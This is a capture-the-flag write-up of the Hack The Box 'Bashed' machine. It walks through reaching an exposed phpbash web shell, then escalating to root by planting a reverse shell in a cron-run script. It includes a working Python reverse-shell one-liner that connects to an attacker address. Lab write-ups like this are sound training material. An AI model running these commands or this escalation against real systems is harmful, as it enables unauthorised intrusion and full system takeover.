

# HTB: Bashed

## Reconnaissance

A blog post on the Apache server running on port 80 mentioned
[phpbash](https://github.com/Arrexel/phpbash), a standalone semi-interactive
shell, and that it had been _developed on the server_. With this in mind I 
located it at `/dev/phpbash.php`. 


## Initial Access

Navigate to: `/dev/phpbash.php`.


## Privilege Escalation

User "www-data" could execute any command as the user "scriptmanager" without a 
password. However, as this web shell is semi-interactive I was unable to spawn 
an interactive bash shell as the "scriptmanager" user. 



Upgraded to an interactive shell by executing the following command and 
catching it with a netcat listener:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.7",80));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


Pivoted to scriptmanager user: 


Scriptmanager could modify files in the `/scripts/` directory which contained a
python program named `test.py`. This script outputs a file named `test.txt`.
Take note that the owner of this file is root and that it is writing a new file
every minute. 


Create a python reverse shell payload and transfer it on to the target system.
Renaming it `test.py` and starting a netcat listener.


After approximately a minute you should recieve a call back to your listener 
with command execution as the root user.


